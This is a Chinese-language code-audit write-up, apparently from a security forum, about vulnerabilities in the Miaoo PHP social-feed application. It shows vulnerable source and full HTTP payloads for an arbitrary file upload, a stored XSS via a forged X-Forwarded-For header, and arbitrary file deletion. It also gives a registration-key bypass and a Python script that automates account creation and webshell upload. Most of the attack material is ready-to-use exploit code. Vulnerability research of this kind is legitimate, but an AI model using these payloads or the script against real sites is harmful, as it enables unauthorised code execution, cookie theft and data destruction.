






# Miaoo 朋友圈程序审计 - 先知社区

Miaoo 朋友圈程序审计

- - -

## 0x00 前言

**程序介绍:**  
**前台一键发布图文，视频，音乐。发布内容支持定位或自定义位置信息。支持将发布内容设为广告模式消息站内通知或邮件通知。支持其他用户注册,支持其他用户发布文章,管理自己的文章。拥有丰富的后台管理功能，一键操作。**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240324205347-8e1017c4-e9dd-1.webp)  
**目录结构:**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240324205412-9d0a657c-e9dd-1.png)

## 0x01 前台任意文件上传

**需要普通用户权限(可直接注册)，在/api/uploadavatar.php 头像更新处，move\_uploaded\_file导致任意文件上传，只需要绕过Content-Type即可随便上传.**

```plain
$str = "../user/headimg/";
$dir = iconv("UTF-8", "GBK", strval($str));
if (!file_exists($dir)) {
    mkdir($dir, 511, true);
}
$file = $_FILES["file"];
$allowedExts = ["gif", "jpeg", "jpg", "png", "webp"];
$temp = explode(".", $_FILES["file"]["name"]);
$extension = end($temp);
if ($extension == "") {
    exit("<script language=\"JavaScript\">;alert(\"未选择图片!\");location.href=\"../setup.php\";</script>;");
}
if ($file["type"] == "image/jpeg" || $file["type"] == "image/png" || $file["type"] == "image/jpg" || $file["type"] == "image/gif" || $file["type"] == "image/webp" && in_array($extension, $allowedExts)) {
} else {
    exit("<script language=\"JavaScript\">;alert(\"文件类型错误,请上传图片!\");location.href=\"../setup.php\";</script>;");
}
if ($file["size"] > 5242880) {
    exit("<script language=\"JavaScript\">;alert(\"请上传5MB以内的图片!\");location.href=\"../setup.php\";</script>;");
}
$path = "../user/headimg/";
$file_name = mt_rand() . str_replace(".", "", microtime(true)) . substr(md5($zjzhq), 0, 12) . $file["name"];
$file_path = $path . $file_name;
$userimg = "./user/headimg/" . $file_name;
if (move_uploaded_file($file["tmp_name"], $file_path)) {
    $sql = "UPDATE user SET img='{$userimg}' WHERE id='{$zid}'";
    $result = $conn->query($sql);
    if ($result) {
        $sqlo = "select * from essay where ptpuser= '{$user_zh}'";
        $resulto = mysqli_query($conn, $sqlo);
        if (mysqli_num_rows($resulto) > 0) {
            while ($rowo = mysqli_fetch_assoc($resulto)) {
                $txid = $rowo["id"];
                $sql = "UPDATE essay SET ptpimg='{$userimg}' WHERE id='{$txid}'";
                $result = $conn->query($sql);
                if ($result) {
                }
            }
        }
```

**Payload:**

```plain
POST /api/uploadavatar.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 206
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9CKBqDZadLQ1ff5J
Cookie: deviceid=1708223329907; rockkefu_deviceid=1708240409582; BJYADMIN=7ovdcsf3httsj0r6fbu10mk7l2; adminToken=a66abb5684c45962d887564f08346e8d; userName=test; userToken=05a671c66aefea124cc08b76ea6d30bb; dark_theme=root; PHPSESSID=5s1ppgucs5raqrlnuqisgrjdht; username=mstir; passid=l5no2rmjhs4g824ry6wymx104j5dy5y24w4utq0w25mfzh34comxj8gpg02xnr5t
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/api/uploadavatar.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

-----------------------------113389720123090127612523184396
Content-Disposition: form-data; name="file"; filename="aaa.php"
Content-Type: image/jpeg

<?php phpinfo();?>
-----------------------------113389720123090127612523184396
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324205551-d8335f78-e9dd-1.png)  
**然后直接访问 /setup.php 即可获取到文件地址.**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324205605-e093372e-e9dd-1.png)

## 0x02 前台存储型XSS

**在 /api/reg.php 中，判断注册ip的逻辑存在缺陷，可直接使用X-Forwarded-For自定IP，使用XSS可导致管理员Cookie被盗取等危害.**

```plain
if ($HTTP_SERVER_VARS["HTTP_X_FORWARDED_FOR"]) {
    $ip = $HTTP_SERVER_VARS["HTTP_X_FORWARDED_FOR"];
} elseif ($HTTP_SERVER_VARS["HTTP_CLIENT_IP"]) {
    $ip = $HTTP_SERVER_VARS["HTTP_CLIENT_IP"];
} elseif ($HTTP_SERVER_VARS["REMOTE_ADDR"]) {
    $ip = $HTTP_SERVER_VARS["REMOTE_ADDR"];
} elseif (getenv("HTTP_X_FORWARDED_FOR")) {
    $ip = getenv("HTTP_X_FORWARDED_FOR");
} elseif (getenv("HTTP_CLIENT_IP")) {
    $ip = getenv("HTTP_CLIENT_IP");
} elseif (getenv("REMOTE_ADDR")) {
    $ip = getenv("REMOTE_ADDR");
} else {
    $ip = "Unknown";
}
```

**注册还需要allkey密钥，看了一眼allkey的验证逻辑:**

```plain
if ($allkey == "") {
    exit("请传入秘钥");
}
session_start();
$cloudallkey = $_SESSION["allkey"];
$appintkey = md5(md5($_SERVER["HTTP_HOST"] . "fC4gT5uU2pW7kU8eL8dI4nK5xE9uT6iW"));
if ($allkey != $cloudallkey) {
    if ($allkey == $appintkey) {
    } else {
        exit("秘钥错误");
    }
}
```

**实际传入 allkey=1a8eed4f3e05c811c6b1c5550102e86f 即可实现注册  
Payload:**

```plain
POST /api/reg.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 100
Content-Type: application/x-www-form-urlencoded
Cookie: deviceid=1708223329907; rockkefu_deviceid=1708240409582; BJYADMIN=7ovdcsf3httsj0r6fbu10mk7l2; adminToken=a66abb5684c45962d887564f08346e8d; userName=test; userToken=05a671c66aefea124cc08b76ea6d30bb; dark_theme=root; PHPSESSID=5s1ppgucs5raqrlnuqisgrjdht
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/setup.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
X-Forwarded-For: <script>alert(1234)</script>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

zh=aaaaaasa&em=dasdasaaasd@qq.com&mm=dasdasd&allkey=1a8eed4f3e05c811c6b1c5550102e86f&yzm=undefined
```

**管理员在后台查看用户时即可弹出XSS**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324205757-22da8740-e9de-1.png)

## 0x03 后台任意文件删除

**在/admin/rm.php 中 存在unlink函数 直接导致了任意文件删除漏洞 只需登录后传入filew参数即可删除任意文件.**

```plain
$filew = addslashes(htmlspecialchars($_GET["filew"]));
if ($filew != "") {
  if (is_file($filew)) {
    $status = unlink($filew);
    if ($status) {
      $ym = addslashes(htmlspecialchars($_GET["page"]));
      if ($ym != "") {
        header("Location: ./rm.php?page=" . addslashes(htmlspecialchars($_GET["page"])) . "");
      } else {
        header("Location: ./rm.php");
      }
    } else {
      exit("<script language=\"JavaScript\">;alert(\"文件删除失败,请重试!\");location.href=\"./rm.php\";</script>");
    }
  } else {
    header("Location: ./rm.php");
  }
}
```

**Payload:**

```plain
GET /admin/rm.php?filew=../robots.txt HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Cookie: deviceid=1708223329907; rockkefu_deviceid=1708240409582; BJYADMIN=7ovdcsf3httsj0r6fbu10mk7l2; adminToken=a66abb5684c45962d887564f08346e8d; userName=test; userToken=05a671c66aefea124cc08b76ea6d30bb; dark_theme=root; PHPSESSID=dmef2eisl4bp3ampglvbukge3r; username=admin; passid=21mdyjggenf1sns6rbsgd1h0b3mo7bv2p1ki2p7ijl7sf1ywehnm9qhttv0absbl
Host: 127.0.0.1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
referer: http://127.0.0.1/admin/rm.php?type=img
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324205931-5addd7e6-e9de-1.gif)

## 0x04 Python脚本编写

```plain
import re
import sys
import requests
import random

url = sys.argv[1]
session = requests.session()
user = str(int(random.uniform(2222222, 9999999)))
files = {'file':('a.php','<?php phpinfo();?>', 'image/jpeg')}
aaa = session.post(url + "/api/reg.php",data={'zh':user,'em':user + '@qq.com','mm':user,'allkey':'1a8eed4f3e05c811c6b1c5550102e86f','yzm':'undefined'}).text
if "注册成功" in aaa:
    bbb = session.post(url + '/api/login.php',data={'zh':user,'mm':user})
    ccc = session.post(url + '/api/uploadavatar.php',files=files)
    print('注册成功 账号:' + user + "  密码:" + user)
    if '上传成功' in ccc.text:
        ddd = session.get(url + '/setup.php').text
        shell = str(re.findall(r'data-src="./(.*)" id="setup-main-lieb-qx-imgt',ddd,re.DOTALL))
        print('成功上传:'+ url + shell.replace('[\'','').replace('\']',''))
else:
    print('注册失败',aaa)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240324210030-7e447faa-e9de-1.png)

## 0x05 总结

**这套系统整体危险函数还是比较多的，上传点不止一个，且不注意伪造ip，各位师傅们可以自行研究.**